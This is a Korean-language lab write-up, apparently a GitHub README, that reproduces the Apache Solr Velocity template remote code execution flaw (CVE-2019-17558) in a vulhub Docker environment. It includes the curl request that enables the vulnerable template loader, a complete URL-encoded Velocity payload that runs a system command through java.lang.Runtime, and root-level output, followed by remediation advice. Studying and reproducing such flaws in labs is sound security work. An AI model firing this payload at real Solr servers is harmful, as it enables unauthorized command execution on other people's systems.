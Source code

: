 # CVE-2019-17558 - Apache Solr Velocity Template RCE

## 개요

Apache Solr 5.0.0 ~ 8.3.1 버전에서는 `VelocityResponseWriter` 기능을 악용하여 원격 코드 실행(RCE)이 가능한 취약점이 존재한다. 본 보고서는 공식 PoC 흐름을 기반으로 해당 취약점을 Docker 환경에서 실습을 통해 재현한 결과를 포함하고 있다.

- 취약점 번호: [CVE-2019-17558](https://nvd.nist.gov/vuln/detail/CVE-2019-17558)
- 영향 버전: Apache Solr 5.0.0 ~ 8.3.1
- PoC 출처: vulhub / GitHub 공개 PoC

---

## 환경 구성

### 사용 기술

- Docker, docker-compose
- Vulhub의 CVE-2019-17558 실습 환경
- 브라우저 기반 확인

### 환경 구성

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2019-17558
docker-compose up -d
```

Apache Solr는 8983번 포트에서 실행됨. 브라우저에서 [http://localhost:8983](http://localhost:8983) 로 접근 가능.

---

## 취약점 재현 절차

### 1. Core 생성

Solr core를 `demo`라는 이름으로 생성한다. (해당 환경에는 이미 생성되어 있다.)

```bash
curl "http://localhost:8983/solr/admin/cores?action=CREATE&name=demo&configSet=_default"
```

---

### 2. Velocity 템플릿 기능 활성화

#### velocity.json 파일 생성: 

```json
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": true,
    "params.resource.loader.enabled": true
  }
}
```

#### curl을 이용한 설정 적용:

```bash
curl -X POST http://localhost:8983/solr/demo/config   -H "Content-Type: application/json"   --data-binary "@velocity.json"
```

응답 예시:
```json
{
  "responseHeader": {
    "status": 0
  }
}
```

---

## 취약점 트리거

브라우저 주소창에 아래 URL을 입력하여 악의적인 Velocity 템플릿을 실행시킴:

```
http://localhost:8983/solr/demo/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)%20%23set($rt=$x.class.forName(%27java.lang.Runtime%27))%20%23set($chr=$x.class.forName(%27java.lang.Character%27))%20%23set($str=$x.class.forName(%27java.lang.String%27))%20%23set($ex=$rt.getRuntime().exec(%27id%27))%20$ex.waitFor()%20%23set($out=$ex.getInputStream())%20%23foreach($i%20in%20[1..100])$str.valueOf($chr.toChars($out.read()))%23end
```

---

## 결과 확인

RCE가 성공하면 다음과 같은 `id` 명령의 결과가 응답에 포함되어 브라우저에 표시된다:

```
uid=0(root) gid=0(root) groups=0(root)
```

![exploit-result](./img2.png)

---

## 결론 및 보안 권고

본 취약점은 Solr에서 사용자 정의 템플릿을 허용할 경우 발생할 수 있는 위험을 보여준다.  
시스템 명령이 Java Velocity 엔진을 통해 실행될 수 있으며, 다음과 같은 조치가 필요하다:

- `params.resource.loader.enabled`를 기본적으로 `false`로 유지
- VelocityResponseWriter 사용 금지 또는 인증된 관리자만 설정 변경 가능하도록 제한
- Solr 최신 버전(8.4 이상) 업그레이드 권고

---

## 참고

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558  
- https://github.com/vulhub/vulhub/tree/master/solr/CVE-2019-17558  
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133  

